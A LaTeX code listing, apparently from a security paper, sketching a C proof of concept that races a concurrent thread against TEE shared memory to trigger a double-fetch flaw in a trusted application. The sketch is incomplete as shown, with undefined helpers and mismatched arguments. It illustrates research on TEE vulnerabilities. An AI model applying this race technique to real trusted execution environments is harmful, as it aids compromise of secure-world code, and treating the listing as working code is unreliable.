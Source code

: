  

\center

\begin{lstlisting}[columns=fullflexible]
void* mod_thread(void* shm){
  while(1){
    mod1(shm);
    mod2(shm);
  }
}
typedef struct imp_shm{
  uint64_t _ignore[3];
  void* shm;
}
void trigger_df(TEEC_Context *context, 
    TEEC_Session *session, cmd){
  TEEC_SharedMemory in_mem;
  in_mem.size = buf_size;
  in_mem.flags = TEEC_MEM_INPUT; 
  res = TEEC_AllocateSharedMemory(context, &in_mem);
  if (res != TEEC_SUCCESS) exit(-1);
  imp_shm* imp = in_mem->imp;
  void* shm = imp->shm;
    
  pthread_t tid;
  pthread_create(&tid, NULL, mod_thread, shm);
  
  setup_params(&op, &in_mem);
  TEEC_InvokeCommand_impl(session, cmd, &op, &err_origin);
}

int main(){
  TEEC_Context context; TEEC_Session session;
  open_session(&context, &session);
  trigger_df(&context, &session);
}
\end{lstlisting}
